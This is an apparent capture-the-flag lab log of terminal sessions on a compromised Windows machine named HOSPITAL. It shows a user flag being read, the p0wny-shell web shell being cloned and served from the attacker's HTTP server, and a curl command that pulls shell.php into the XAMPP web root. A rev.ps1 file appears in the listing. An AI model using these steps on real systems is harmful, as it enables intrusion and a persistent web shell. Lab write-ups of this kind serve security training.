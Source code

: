 C:\Users\drbrown.HOSPITAL>cd Desktop
cd Desktop

C:\Users\drbrown.HOSPITAL\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Desktop

10/26/2023  11:24 PM    <DIR>          .
10/26/2023  11:24 PM    <DIR>          ..
12/25/2023  09:15 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,100,231,168 bytes free

C:\Users\drbrown.HOSPITAL\Desktop>type user.txt
type user.txt
11835c5c47fbe9407b35d5c4a8c540dc

❯ git clone https://github.com/flozz/p0wny-shell.git
Cloning into 'p0wny-shell'...
remote: Enumerating objects: 212, done.
remote: Counting objects: 100% (134/134), done.
remote: Compressing objects: 100% (51/51), done.
remote: Total 212 (delta 92), reused 110 (delta 82), pack-reused 78
Receiving objects: 100% (212/212), 115.78 KiB | 785.00 KiB/s, done.
Resolving deltas: 100% (122/122), done.
❯ cd p0wny-shell

❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.241 - - [26/Dec/2023 13:50:58] "GET /shell.php HTTP/1.1" 200 -
10.10.11.241 - - [26/Dec/2023 13:52:08] "GET /shell.php HTTP/1.1" 200 -

C:\xampp\htdocs>curl 10.10.14.107:8000/shell.php -o shell.php
curl 10.10.14.107:8000/shell.php -o shell.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 20321  100 20321    0     0  69177      0 --:--:-- --:--:-- --:--:-- 69354

C:\xampp\htdocs>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\xampp\htdocs

12/26/2023  06:52 PM    <DIR>          .
12/26/2023  06:52 PM    <DIR>          ..
10/16/2023  11:23 AM             2,553 .htaccess
10/22/2023  09:19 PM    <DIR>          bin
10/16/2023  11:23 AM           211,743 CHANGELOG.md
10/16/2023  11:23 AM               994 composer.json
10/16/2023  11:23 AM             1,086 composer.json-dist
10/16/2023  11:23 AM            56,279 composer.lock
10/22/2023  10:47 PM    <DIR>          config
10/22/2023  09:33 PM    <DIR>          default
12/26/2023  06:22 AM            20,321 fady.php
10/16/2023  11:23 AM            11,199 index.php
10/16/2023  11:23 AM            12,661 INSTALL
10/22/2023  09:19 PM    <DIR>          installer
10/16/2023  11:23 AM            35,147 LICENSE
10/22/2023  09:32 PM    <DIR>          logs
10/22/2023  09:19 PM    <DIR>          plugins
10/22/2023  09:20 PM    <DIR>          program
10/16/2023  11:23 AM             3,853 README.md
12/26/2023  06:33 AM             1,351 rev.ps1
